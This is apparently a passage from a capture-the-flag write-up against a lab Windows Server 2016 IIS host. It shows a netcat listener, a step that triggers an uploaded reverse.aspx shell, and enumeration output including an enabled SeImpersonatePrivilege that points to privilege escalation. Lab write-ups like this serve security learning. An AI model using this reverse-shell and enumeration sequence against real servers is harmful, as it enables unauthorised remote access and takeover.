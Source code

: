 ```bash

nc -lvnp 1234
```
navigate to `http://<IP>/nt4wrksv/reverse.aspx`
# Local enumeration
```powershell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

```
c:\windows\system32\inetsrv> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

```
c:\windows\system32\inetsrv>net users
net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Bob                      DefaultAccount           
Guest                    
```

```
c:\Users\Public>systeminfo
systeminfo




Host Name:                 RELEVANT
OS Name:                   Microsoft Windows Server 2016 Standard Evaluation
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00378-00000-00000-AA739
Original Install Date:     7/25/2020, 7:56:59 AM
System Boot Time:          3/20/2024, 1:17:44 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.11.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
```
